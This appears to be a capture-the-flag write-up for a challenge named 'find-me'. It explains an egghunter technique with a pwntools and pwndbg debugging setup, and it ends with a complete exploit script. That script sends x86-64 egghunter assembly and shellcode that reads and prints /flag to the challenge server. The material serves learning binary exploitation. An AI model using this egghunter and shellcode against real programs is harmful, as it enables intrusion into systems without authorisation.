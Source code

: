 * design egg: b"\x90" * 8 (**nopsled**)
* debug egghunter make sure it can do hunter stuff by using pwndbg

```
context.terminal = ['tmux', 'splitw', '-h']
p = process('./find-me')
gdb.attach(p, gdbscript='''
b *0x4017d3  #call rax(egghunter)
c
''')
```

* egghunter itself

```
# search from rax(egghunter), set rax to rcx, coz rax maybe has some special task so use rcx which is free currently
mov rcx, rax

# logic quite simple, code as the comment
skip:
    inc rcx
    jmp search
search:
    cmp dword ptr [rcx], 0x90909090
    jne skip
    
    cmp dword ptr [rcx + 4], 0x90909090
    jne skip
    
    jmp rcx
```
* another life saver: **find start_addr, end_addr, egg** in pwndgb, try to figure out if egg has been injected

```
pwndbg> lis or vmap
pwndbg> find start_addr, end_addr, egg
```

* shellcode **nothing** special

```
payload = egg + shellcode(cat /flag)

```

* whole script

```
from pwn import *

context.arch = 'amd64'

p = remote('lol', 20709)

# context.terminal = ['tmux', 'splitw', '-h']
# p = process('./find-me')
# gdb.attach(p, gdbscript='''
#     b *0x4017d3
#     c
# ''')

shellcode = asm(f'''
   XOR RAX, RAX
   MOV RAX, 0x67616C662F
   PUSH RAX
   MOV RDI, RSP


   XOR RSI, RSI
   XOR RDX, RDX
   MOV RAX, 2
   SYSCALL

   MOV RDI, RAX
   MOV RSI, RSP
   MOV RDX, 200
   XOR RAX, RAX
   SYSCALL

   MOV RDI, 1
   MOV RSI, RSP
   MOV RDX, 200
   MOV RAX, 1
   SYSCALL

   XOR RDI, RDI
   MOV RAX, 60
   SYSCALL
''')

egg = b"\x90" * 4

egghunter = asm(f'''
mov rcx, rax
skip:
    inc rcx
    jmp search
search:
    cmp dword ptr [rcx], 0x90909090
    jne skip
    
    cmp dword ptr [rcx + 4], 0x90909090
    jne skip
    
    jmp rcx
''')

payload = egg + egg + shellcode

p.recvuntil(b'enter your smallbuf shellcode').decode('utf-8').strip()
p.sendline(egghunter)

p.recvuntil(b'enter your bigbuf shellcode:').decode('utf-8').strip()
p.sendline(payload)

p.interactive()

```

